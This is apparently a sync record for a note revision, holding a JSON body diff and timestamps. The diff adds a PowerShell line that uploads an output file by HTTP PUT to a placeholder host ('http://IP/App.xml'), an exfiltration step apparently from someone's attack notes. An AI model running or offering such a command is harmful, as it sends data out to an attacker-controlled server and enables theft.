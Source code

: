 id: 1019559aee85425eb79e843ec01bb8ef
parent_id: 6544a8184cd24a39989734969b279c0d
item_type: 1
item_id: f21c6f5f2f59420ca228482d82081874
item_updated_time: 1642578895816
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"file\"],[-1,\" \"],[0,\"\\\n\\\n![\"]],\"start1\":4270,\"start2\":4270,\"length1\":9,\"length2\":8},{\"diffs\":[[0,\"ive -xml\"],[1,\"; Invoke-RestMethod -Method PUT -Body $outfile -Uri http://IP/App.xml\"]],\"start1\":4441,\"start2\":4441,\"length1\":8,\"length2\":77}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T07:55:39.382Z
created_time: 2022-01-19T07:55:39.382Z
type_: 13